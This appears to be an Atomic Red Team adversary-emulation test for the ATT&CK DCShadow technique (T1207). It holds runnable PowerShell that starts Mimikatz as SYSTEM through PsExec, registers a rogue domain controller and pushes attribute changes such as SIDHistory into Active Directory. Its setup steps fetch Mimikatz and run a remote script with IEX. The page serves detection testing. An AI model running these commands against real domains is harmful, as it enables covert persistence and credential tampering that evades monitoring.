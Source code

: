 # T1207 - Rogue Domain Controller
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1207)
<blockquote>Adversaries may register a rogue Domain Controller to enable manipulation of Active Directory data. DCShadow may be used to create a rogue Domain Controller (DC). DCShadow is a method of manipulating Active Directory (AD) data, including objects and schemas, by registering (or reusing an inactive registration) and simulating the behavior of a DC. (Citation: DCShadow Blog) Once registered, a rogue DC may be able to inject and replicate changes into AD infrastructure for any domain object, including credentials and keys.

Registering a rogue DC involves creating a new server and nTDSDSA objects in the Configuration partition of the AD schema, which requires Administrator privileges (either Domain or local to the DC) or the KRBTGT hash. (Citation: Adsecurity Mimikatz Guide)

This technique may bypass system logging and security monitors such as security information and event management (SIEM) products (since actions taken on a rogue DC may not be reported to these sensors). (Citation: DCShadow Blog) The technique may also be used to alter and delete replication and other associated metadata to obstruct forensic analysis. Adversaries may also utilize this technique to perform [SID-History Injection](https://attack.mitre.org/techniques/T1134/005) and/or manipulate AD objects (such as accounts, access control lists, schemas) to establish backdoors for Persistence. (Citation: DCShadow Blog)</blockquote>

## Atomic Tests

- [Atomic Test #1 - DCShadow (Active Directory)](#atomic-test-1---dcshadow-active-directory)


<br/>

## Atomic Test #1 - DCShadow (Active Directory)
Use Mimikatz DCShadow method to simulate behavior of an Active Directory Domain Controller and edit protected attribute.

[DCShadow](https://www.dcshadow.com/)
[Additional Reference](http://www.labofapenetrationtester.com/2018/04/dcshadow.html)

It will set the badPwdCount attribute of the target user (user/machine account) to 9999. You can check after with:
Get-ADObject -LDAPFilter '(samaccountname=<user>)' -Properties badpwdcount | select-object -ExpandProperty badpwdcount

Need SYSTEM privileges locally (automatically obtained via PsExec, so running as admin is sufficient), and Domain Admin remotely.
The easiest is to run elevated and as a Domain Admin user.

**Supported Platforms:** Windows


**auto_generated_guid:** 0f4c5eb0-98a0-4496-9c3d-656b4f2bc8f6





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| object | Targeted object (for machine account do not forget to add final '$') | string | bruce.wayne|
| attribute | Object attribute to edit, interesting ones: badpwdcount, primaryGroupId, SIDHistory... | string | badpwdcount|
| value | Value to assign to object attribute | string | 9999|
| mimikatz_path | Mimikatz windows executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;mimikatz&#92;x64&#92;mimikatz.exe|
| psexec_path | Path to PsExec | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;PSTools&#92;PsExec.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
# starting fake DC server, as SYSTEM (required)
$dc_output_file = "PathToAtomicsFolder\..\ExternalPayloads\art-T1207-mimikatz-DC.log"
Remove-Item $dc_output_file -ErrorAction Ignore
$mimikatzParam ="`"log $dc_output_file`" `"lsadump::dcshadow /object:#{object} /attribute:#{attribute} /value:#{value}`" `"exit`""
$dc = Start-Process -FilePath cmd.exe -Verb Runas -ArgumentList "/c #{psexec_path} /accepteula -d -s #{mimikatz_path} $mimikatzParam"

# wait for fake DC server to be ready...
Start-Sleep -Seconds 5

# server ready, so trigger replication (push) and wait until it finished
& #{mimikatz_path} "lsadump::dcshadow /push" "exit"

Write-Host "`nWaiting for fake DC server to return"
Wait-Process $dc

Write-Host "`nOutput from fake DC server:"
Get-Content $dc_output_file
Start-Sleep 1 # wait a little until the file is not locked anymore so we can actually delete it
Remove-Item $dc_output_file -ErrorAction Ignore

Write-Host "End of DCShadow"
```

#### Cleanup Commands:
```powershell
Stop-Process -Name "mimikatz" -Force -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$mimikatz_exe = cmd /c echo #{mimikatz_path}
$basePath = Split-Path $mimikatz_exe | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```
##### Description: PsExec tool from Sysinternals must exist on disk at specified location (#{psexec_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{psexec_path}") { exit 0} else { exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\PsTools.zip"
Expand-Archive PathToAtomicsFolder\..\ExternalPayloads\PsTools.zip PathToAtomicsFolder\..\ExternalPayloads\PsTools -Force
New-Item -ItemType Directory (Split-Path "#{psexec_path}") -Force | Out-Null
Copy-Item PathToAtomicsFolder\..\ExternalPayloads\PsTools\PsExec.exe "#{psexec_path}" -Force
```




<br/>
